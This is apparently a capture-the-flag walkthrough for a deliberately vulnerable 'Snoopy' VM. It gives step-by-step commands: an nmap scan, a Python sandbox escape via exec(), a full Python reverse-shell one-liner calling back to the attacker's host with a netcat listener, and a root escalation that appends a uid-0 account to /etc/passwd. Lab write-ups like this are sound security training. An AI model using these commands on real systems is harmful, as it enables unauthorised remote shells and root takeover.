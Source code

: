 # Snoopy VM Walkthrough (Easy Difficulty) 

Step 1: nmap -p (ip of infected) -A 

Step 2: Notice that there is ssh and webserver available. Visit the webpage of the ip address. 

Graphical user interface

Description automatically generated 

Step 3: Sign up is unavailable so click sign in. The login credentials can be found in a directory that is revealed during the nmap scan. (/zbir7mn240soxhicso2z) 

Step 4: Login credentials are found in this directory. Use this to login.  

Graphical user interface, text, application

Description automatically generated 

Step 5: This page seems to be a python code tester. You can leverage this to gain a shell on this system. This page boasts that the online IDE has some protections in place.  

Graphical user interface, text

Description automatically generated 

Step 6: Analyse the code given to us.  

Text

Description automatically generated 

It prevents us from importing modules. The webpage gives us a hint where you can use the exec() function instead.  

Step 7: Set up a netcat listener on kali and enter the following into the IDE 

Text

Description automatically generated 

Command:  

import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("host ip",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]); 

nc -lvnp 4444  

Step 8: Now u have a shell as a http user. Since we have access to py user’s home directory, look inside it. 

Step 9: Execute the file typing.cc. This will give you the password for user py. 

Text

Description automatically generated 

Step 10: su as user py and cat user.txt to get the user flag. 

Step 11: To get the root flag, we would need to add a new entry into the /etc/passwd file to allow us to login as root user.  

Step 12: Create a new user and password and hash the password using openssl. Execute the backup file and enter the line of text in the same format as what u see in /etc/passwd.  

Commands:  

Openssl passwd -1 -salt (user) (passwd) 

Format to enter when executing backup: (user):(hashed passwd here):0:0:/root:/bin/bash 

Step 13: Su as the new user u created and you now have root access. 

Step 14: Retrieve the root flag 

Commands: 

Cd /root 

Cat root.txt 

